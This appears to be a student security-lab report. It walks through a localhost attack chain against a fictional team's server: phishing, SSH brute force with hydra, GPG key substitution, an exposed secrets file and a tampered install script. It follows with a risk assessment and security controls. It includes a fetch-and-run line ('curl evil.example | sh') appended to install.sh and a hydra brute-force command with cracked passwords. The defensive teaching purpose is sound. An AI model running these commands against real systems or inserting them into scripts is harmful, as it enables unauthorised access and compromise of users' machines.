




# Empirical Seminar: Compromise of a Small Team (LabOps)

**Author:** Luka Kit
**Course:** CS – Security Labs

---

## 1. Introduction and scenario

LabOps is a fictional team of four people. They run a Linux enrollment server
that they manage over SSH, and they publish an install script (`install.sh`)
that their users, who are students, download and run. The team also has a
helpdesk mailbox (`helpdesk@labops.example`) and signs its releases with a GPG
key.

In this seminar I rebuilt a local copy of that setup and walked through a short
attack chain against it. For each step I collected evidence, and at the end I
used that evidence for a risk assessment and a security plan. I looked at five
weaknesses:

1. a helpdesk employee can be phished with a fake login page;
2. the server still accepts password logins, and one account has a weak password;
3. the release signing key can be replaced, because nobody checks its
   fingerprint through a second channel;
4. the database password is stored in a file that could end up in git;
5. `install.sh` can be changed, and users run it without checking the signature.

On its own, each of these would be a normal finding in an audit. The reason I
picked them is that they can be used one after another: one stolen password can
end with the attacker's code running on every student's machine.

---

## 2. Assets

| Asset | Who uses it | What an attacker gets if it is lost | Personal data? |
|-------|-------------|-------------------------------------|----------------|
| Helpdesk mailbox `helpdesk@labops.example` | The four LabOps admins | A trusted channel for password resets and keys, and a starting point for more phishing | User correspondence |
| SSH account on the enrollment server | LabOps admins | A shell on the server that holds student records | Yes, the server connects to the database |
| GPG release signing key | LabOps (signing), students (verifying) | Can sign malicious releases that users will trust | No, but it protects all users |
| `install.sh` (downloaded by users) | All students | Code execution on every machine that runs it | Not directly, but it allows mass compromise |
| `secrets.env` (database password) | The enrollment server | Direct access to the student database | Yes, it unlocks personal data |

Two of these assets hold or give access to personal data: the SSH account,
because the server talks to the database, and `secrets.env`, because it contains
the database password. I assume the database stores student personal data, so
the GDPR applies (see section 7).

**Data flow.** A student downloads `install.sh` from the release page and runs
it. Admins log in to the enrollment server over SSH. The server reads
`secrets.env` to connect to the student database. Releases are signed with the
GPG key so students can check them. If any one of these links is broken (a
phished admin password, a weak SSH password, a swapped key, a leaked secret or
a modified script), the problem spreads along the rest of the flow.

---

## 3. Method and lab setup

Everything was done in the `project` directory of the seminar repository.

**SSH target.** A small Ubuntu 24.04 image (`Dockerfile`) exposes SSH on
`127.0.0.1:2222`. It is configured with `PasswordAuthentication yes`,
`PermitRootLogin no` and `Port 2222`. When the container starts,
`entrypoint.sh` runs `create_users.sh`, which creates four accounts with
passwords of different strength:

| User | Password | Role |
|------|----------|------|
| `weakuser` | `123456` | Old admin account nobody uses anymore |
| `mediumuser` | `Password123` | Daily account, reused password |
| `stronguser` | `Str0ng!Pass#2026` | Emergency (break-glass) account |
| `student` | `password123` | Daily student account |

I started the container with `docker run -d --name ssh_lab -p
127.0.0.1:2222:2222 -v "$PWD/create_users.sh:/create_users.sh:ro" ssh_lab`
(this does the same as the compose file) and checked that I could log in as
`weakuser`.

**Release workspace.** In `$HOME/labops/release` I created `install.sh`, a
`secrets.env` file, a SHA-256 checksum and two GPG keys. Both keys have the same
name and email address but different fingerprints. One is the real "release"
key and the other is the "attacker" key, and each is in its own keyring
(`gnupg-release`, `gnupg-attacker`). The checksum file is signed (detached
signature) with the real release key.

**Tools.** Docker, the OpenSSH client, `nmap`, `hydra` and `gnupg`. All of them
were only used against `localhost`.

**Evidence.** I saved command output and screenshots in `evidence/` and quote
them in section 4. Each screenshot goes together with the command that produced
it.

---

## 4. Evidence from the five steps

### 4.1 Phishing (`lab02`)

For this step I used the local login page from `lab02`, a simple "Login to the
system" form served from `127.0.0.1`. I did not send it to anyone or host it
anywhere else.



**Five things a helpdesk employee should notice before entering a password:**

1. **Wrong address.** The URL is a bare IP or a domain that only looks similar
   to the real LabOps one.
2. **No HTTPS.** The page uses plain `http`.
3. **It was opened from a link** in an email or message, not by typing the
   address or using a bookmark.
4. **Pressure.** The message that led to the page tries to rush you ("account
   locked", "verify now").
5. **Small details.** Missing or old logos, spelling mistakes, or a form that
   asks for more than a normal login.

### 4.2 SSH brute force (`lab03`)

**Port scan** with `nmap -sV -p 2222 localhost`:

```text
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.20 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The open port runs OpenSSH 9.6p1 and accepts password logins, which makes it
the obvious target.

**Hydra against `weakuser`** with `hydra -l weakuser -P passwords.txt ssh://localhost:2222`:

```text
[2222][ssh] host: localhost   login: weakuser   password: 123456
1 of 1 target successfully completed, 1 valid password found
(started 22:19:37, finished 22:19:39)
```

`123456` is the first password in `passwords.txt`, so Hydra found it in about
two seconds.

**Control run against `stronguser`.** With the same wordlist Hydra found nothing
(`0 valid password found`). I stopped it after a short time and did not leave it
running. This shows that the problem is the weak password, not SSH itself.

### 4.3 Release key substitution (`lab04`, `lab05`)

The two GPG keys use the same address, `labops-release@labops.example`, but
their fingerprints are different:

```text
release key:   8250 4C32 8EBF 1962 C0F1  1E66 9066 71D4 2FE1 21AA
attacker key:  6D14 2850 0C5E 38DB B08E  A8C6 7782 CEEC D3CF A31E
```

Both keys show the same user ID, `LabOps Release
<labops-release@labops.example>`. Someone who trusts "the key with that email
address" can easily import the wrong one. The fingerprint is the only thing
that tells them apart.

**How LabOps could have caught this:** by comparing the full fingerprint over a
second channel that the attacker does not control, for example reading it out
on a call, before trusting the key. The email address alone proves nothing.



### 4.4 Secrets in a committable file (`lab06`)

`secrets.env` contains `DB_PASSWORD=lab-demo-pass` (26 bytes, permissions `600`)
and should never be committed. I encrypted it with GPG, and the result is an
unreadable PGP message:

```text
-----BEGIN PGP MESSAGE-----
hQIMA5BmcdQv4SGqARAAnu3JfWDOfvDaj4HIQ8Ublgt...
...(full ciphertext in evidence/06-secrets.txt)...
-----END PGP MESSAGE-----
```

**What is still exposed:** encryption only helps from now on. If the plaintext
file was ever committed and the repository was pushed or cloned, the password is
still in the git history on the remote and on every clone. In that case the
database password has to be **changed** and the old one treated as leaked.



### 4.5 Tampered install script (`lab07`)

I changed one line in `install.sh` (added `&& curl evil.example | sh` at the
end) and then checked the checksum and the signature again:

```text
1. checksum vs the original signed checksum:
   install.sh: FAILED
   sha256sum: WARNING: 1 computed checksum did NOT match

2. attacker regenerates the checksum to hide the change:
   22a6b3a76e1afd6b84e4a9aa8080ca834b9bb9c2d4105c9a76b96e8a157f9fa5  install.sh

3. signature check on the regenerated checksum:
   gpg: BAD signature from "LabOps Release labops-release@labops.example"
```

After the change, the checksum check fails. If the attacker creates a new checksum that matches the modified script,
the signature no longer matches, because the attacker does not have the release
private key, so `gpg --verify` reports a BAD signature. Together the two checks
catch the modified script, but only if someone actually runs them.



---

## 5. Risk assessment

Likelihood and impact are rated Low / Medium / High. The overall risk is my own
judgment, with a short reason for each row below the table.

| Asset | Weakness | Evidence | Likelihood | Impact | Risk |
|-------|----------|----------|------------|--------|------|
| Helpdesk mailbox | Staff can be tricked into entering credentials on a fake page | `01-phishing.png` | Medium | High | **High** |
| SSH account | Weak password and password login enabled | `02-nmap.txt`, `03-ssh-weak.txt` | High | High | **High** |
| GPG release key | Key trusted by email address, fingerprint never checked separately | `04-fingerprints.txt` | Low | High | **Medium** |
| `secrets.env` | Database password in a file that could be committed to git | `06-secrets.txt` | Medium | High | **High** |
| `install.sh` | Script can be changed and is run without checking the signature | `05-signature-fail.txt` | Low | High | **Medium** |

**Reasons:**

- **Phishing (Medium / High).** The helpdesk gets a lot of messages from people
  it does not know, so phishing attempts are likely and some will work
  eventually. One stolen admin password is enough to start the whole chain.
- **Weak SSH password (High / High).** `123456` was the first guess and was found
  in about two seconds. Anyone who can reach the port can do the same with an
  automated tool, and they get a shell on a server that can reach student data.
- **Key substitution (Low / High).** An outsider first needs a way to get the
  fake key to the team, for example through the mailbox or the release page, so
  on its own this is not very likely. If it does happen, nothing stops it,
  because nobody checks the fingerprint, and every user would trust the
  malicious releases.
- **Secret in git (Medium / High).** Committing a secrets file by mistake is
  common. Once it is in the history, anyone with the repository has the database
  password and access to personal data.
- **Tampered script (Low / High).** The attacker needs write access to the
  release page first, which an outsider does not have. But users do not check
  signatures, so once the script is changed it runs on every machine that
  installs it.

Rows 3 and 5 are only Medium when looked at alone, because both need some
access first. Rows 1 and 2 are exactly how an attacker would get that access: a
phished or brute-forced admin password makes swapping the key or changing the
script much easier. So in practice I would fix rows 1 and 2 first, and treat
rows 3 and 5 as High as long as rows 1 and 2 are still open.

---

## 6. Security plan

Below are seven controls. For each one I list the weakness it addresses, the
concrete change, the lab it comes from, what risk is left afterwards, and a
reference to NIST CSF 2.0 and ISO/IEC 27001:2022 Annex A.

**Control 1: SSH keys for admins, no password logins.**
*Weakness:* weak SSH password (4.2). *Change:* put each admin's public key on the
server, set `PasswordAuthentication no` in `sshd_config` and reload sshd.
*From:* `lab03`. *Remaining risk:* a stolen or unprotected private key, or a
compromised admin laptop. *Reference:* NIST PR.AA-03, ISO A.8.5.

**Control 2: Lock or remove the unused `weakuser` account.**
*Weakness:* old admin account with a trivial password (4.2). *Change:*
`usermod -L weakuser` (or delete the account) and check for other unused
accounts. *From:* `lab03`. *Remaining risk:* other accounts with weak or reused
passwords (`mediumuser`, `student`) until they are checked too. *Reference:*
NIST PR.AA-05, ISO A.5.18.

**Control 3: Check release key fingerprints over a second channel.**
*Weakness:* key trusted by email address only (4.3). *Change:* publish the full
fingerprint of the release key on a separate channel and have each person
confirm it by voice or in person before importing it. A matching email address
is never enough. *From:* `lab04`, `lab05`. *Remaining risk:* someone could try
to trick the person doing the verification. *Reference:* NIST PR.DS-01, ISO
A.8.24.

**Control 4: Sign every release and require users to check it.**
*Weakness:* modified script run without checking (4.5). *Change:* ship
`install.sh.sha256` and `install.sh.sha256.asc` with every release, and write in
the install instructions that users must run `gpg --verify` and not run the
script if it fails. The lab showed why both files are needed: the checksum
detects the change, and the signature stops the attacker from just making a new
checksum. *From:* `lab07`. *Remaining risk:* the signing key itself being stolen
(Control 3 helps here) or users skipping the check. *Reference:* NIST PR.DS-01,
ISO A.8.24.

**Control 5: Keep secrets out of git and change the leaked one.**
*Weakness:* database password in a file that could be committed (4.4).
*Change:* add `secrets.env` to `.gitignore`, keep the real secret in an
untracked or encrypted store, turn on secret scanning for the repository, and
change the database password in case the old one is already in the history.
*From:* `lab06`. *Remaining risk:* the old password stays in existing clones and
remote history until it is changed. *Reference:* NIST PR.DS-01, ISO A.5.17.

**Control 6: Helpdesk rule against phishing.**
*Weakness:* staff tricked by a fake page (4.1). *Change:* a written rule that
nobody types a password into a page opened from an email link. Staff go to
known addresses or bookmarks and report suspicious emails. *From:* `lab02`.
*Remaining risk:* better, targeted phishing. Control 7 reduces this.
*Reference:* NIST PR.AT-01, ISO A.6.3.

**Control 7: MFA on the mailbox and admin access.**
*Weakness:* limits the damage from 4.1 and 4.2. *Change:* turn on MFA for the
helpdesk mailbox and for any remote admin access that supports it, using
phishing-resistant methods (for example security keys) where possible. *From:*
follows from the `lab02` and `lab03` results. *Remaining risk:* MFA fatigue
attacks or weaker MFA methods still leave a small gap. *Reference:* NIST
PR.AA-03, ISO A.8.5.

Every control is linked to at least one evidence file from section 4. I left
out controls that the evidence does not support.

---

## 7. Legal and ethical note

**GDPR.** The enrollment database holds student personal data, so LabOps is a
controller (or processor) under the GDPR. The relevant duties here are:

- **Purpose limitation and data minimisation (Art. 5):** only collect and keep
  the student data the enrollment service actually needs.
- **Security of processing (Art. 32):** access control, encrypting secrets and
  keeping passwords out of source code are the kind of technical measures this
  article asks for. The weaknesses in sections 4.2 to 4.4 are failures under
  Art. 32.
- **If the database password has leaked:** this should be handled as a personal
  data breach. Change the password right away, assess the risk to students,
  notify the supervisory authority without undue delay (where feasible within
  72 hours of finding out), and inform the affected students if the breach is
  likely to be a high risk to them (Art. 33 and 34).

This is a summary of the duties, not legal advice.

**NIS2.** A four-person internal team running a service for one faculty would
most likely be under the NIS2 size thresholds, so LabOps alone would not be an
essential or important entity. If LabOps is part of a larger organisation that
is in scope, for example a university counted under research or public
administration, the obligations come from that organisation, and LabOps would
most likely fall under an important entity rather than an essential one. What
decides this is the sector and size of the organisation LabOps belongs to, not
the team by itself.

**Scope of testing.** All tests were limited to my own container
(`127.0.0.1:2222`), my own files in `$HOME/labops`, and a phishing page that
never left my computer. To run the same tests on a server I do not own, I would
need written permission from the owner, an agreed scope and rules of
engagement, and to make sure the work stays within the law on unauthorised
access to computer systems. Scanning, phishing or brute-forcing someone else's
system without permission is illegal, whatever the intention.

---

## 8. Conclusion

None of the five problems I found in LabOps needs any special skill to exploit.
What made them dangerous was that each one opened the way to the next, so one
phished helpdesk password could end with signed code running on every
student's machine.

The lab showed that each step is easy to reproduce: `123456` was found in two
seconds, two different keys had the same address, and the modified script
failed both the checksum and the signature check. The seven controls in section
6 address every link in the chain: SSH keys instead of passwords, locking the
unused account, checking key fingerprints over a second channel, signed
releases that users actually verify, keeping secrets out of git, a simple
helpdesk rule, and MFA. Most of them are a config change or a written rule, so
the harder part is getting the team to keep doing them, especially the
fingerprint and signature checks.

---

## Appendix: evidence file index

| File | Produced by | Section |
|------|-------------|---------|
| `01-phishing.png` | Screenshot of the local `lab02` login page | 4.1 |
| `02-nmap.txt` | `nmap -sV -p 2222 localhost` | 4.2 |
| `03-ssh-weak.txt` | `hydra -l weakuser -P passwords.txt ssh://localhost:2222` (+ stronguser control run) | 4.2 |
| `04-fingerprints.txt` / `.png` | `gpg --fingerprint` on both keyrings | 4.3 |
| `05-signature-fail.txt` / `.png` | `sha256sum -c` + `gpg --verify` after the change | 4.5 |
| `06-secrets.txt` / `.png` | `gpg --encrypt` of `secrets.env` + ciphertext | 4.4 |
